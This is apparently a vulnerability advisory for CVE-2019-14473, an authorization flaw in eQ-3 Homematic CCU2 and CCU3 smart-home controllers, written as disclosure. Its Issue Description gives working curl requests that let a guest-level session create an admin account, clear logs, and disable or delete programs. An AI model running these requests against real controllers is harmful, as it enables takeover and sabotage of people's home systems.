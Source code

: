 ```yaml
---
layout: post
title:  "CVE-2019-14473 eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. Consequently, a valid guest level or user level account can create a new admin level account, read the service messages, clear the system protocol or modify/delete internal programs, etc. pp."
datetime: 2019-08-01 20:00:00 MEST
last_modified_at: 2019-08-03 22:38:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-14473
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. Consequently, a valid guest level or user level account can create a new admin level account, read the service messages, clear the system protocol or modify/delete internal programs, etc. pp.
- Vulnerability Type: CWE-285 Improper Authorization
-	CVSSv3 Base Score: 9.9
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 03.08.2019
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 07.05.2019 for similar issue of CVE-2019-14475 / for valid guest level and user level accounts on 01.08.2019
- Vendor confirmation: N.A.
- Vendor patch: N.A.
- Vendor Reference: N.A.
- Affected Firmware version of CCU2: 2.47.12, 2.47.15 tested, but certainly even before that too
- Affected Firmware version of CCU3: 3.47.10, 3.47.15 tested, but certainly even before that too

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the CCU web interface based on given page objects and the WebUI calls behind in browser developer console, an Improper Authorization vulnerability has been identified, which can be exploited in order to start an Escalation of Privileges, Denial of Service and Information Disclosure at the WebUI. This vulnerability can be exploited by authenticated guest level and user level accounts.<br>
<br>
After login as guest or user level account use the given SessionID as shown in address bar ```...?sid=@JLS011UTXB@```<br>
<br>
Escalation of Privileges - create your own admin level (```level = 8```) account 'MyOwnAdminAccount' with passwort 'myPassword' and visible on login page:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "saveUser";integer iUserid = 0;string userName = "MyOwnAdminAccount";string firstName = ""; string lastName = "";string sSysVars = "";integer iPwChanged = 0; string pw = "myPassword";integer iLogin = 0;integer dev = 0;integer level = 8;boolean bEasy = true; string phone = "";string mail = "";]]></prototypejs>'```<br>
<br>
Now you can login with that user with full access control to the system.<br>
<br>
You won't create another admin account, but you want to do other tasks on the system?<br>
<br>
Just some examples...<br>
Clear the system protocol:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "ClearHistoryData";]]></prototypejs>'```<br>
<br>
Read the service messages (device communication errors, etc.):<br>
```curl -X POST -i 'http://IP_der_CCU/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "UpdateUI";]]></prototypejs>'```<br>
<br>
manipulation of programs/scripts (Home page > Programs and connections > Programs)<br>
a program/script is identified by an ID, you may just guess the number or you iterate through a range.
This example is manipulating the program/script ```id = "1603"```<br>
deactivate a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetActive";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to inoperable:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetOperate";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to invisible:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetVisible";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Delete a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data 'string action = "DeleteProgram";string id = "1603";'```<br>


# CVE

[CVE-2019-14473](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14473)

# CVSSv3 Base Score

CVSSv3 Base Score: 9.9

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

